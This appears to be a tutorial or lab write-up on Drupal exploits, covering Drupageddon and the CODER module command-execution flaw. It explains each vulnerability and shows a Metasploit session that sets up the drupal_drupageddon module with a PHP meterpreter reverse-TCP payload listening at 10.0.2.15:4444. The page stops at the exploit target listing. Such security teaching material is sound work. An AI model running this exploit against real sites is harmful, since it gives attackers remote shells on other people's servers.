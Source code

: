 ## Reason of choice
### Drupageddon
**Date**  
2014-10-15

**Exploit effect**  
Remote shell on the vulnerable instance using SQL injection by uploading a malicious
form to Drupal's cache.

### drupal_coder_exec
**Date**   
2016-07-13

**Exploit effect**  
Remote command execution on the Drupal CODER module. The CODER module doesn't validate user inputs in a script file with a PHP extension. A malicious unauthenticated user can thereby make requests directly to this file in order to execute arbitrary commands.

<hr>

**†For the rest of the tutorial, we will use the vulnerability dubbed drupageddon.
What is the underlying vulnerability?**  
The vulnerability is that it is possible to gain a remote shell by exploiting the Drupal HTTP parameter. Two methods are available where the first one uses SQLi to upload a malicious form to Drupal's cache, which triggers a cache entry that executes the payload. The second method is using the user-post ability, which can be used to create a new Drupal user that can be added to the administrators group in order to grant the administrator a right to bundle PHP code in their post. This post can then be previewedd to trigger a payload execution.

**†What is so severe about the issue?**  
It's a very easy attack that can make an attacker very powerful, thereby making the system highly vulnerable.

# Exploitation
Starting the exploit
````console
msf > use exploit/multi/http/drupal_drupageddon
msf > show options
Module options (exploit/multi/http/drupal_drupageddon):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:
                                         port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/
                                         metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The target URI of the Drupal installation
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
````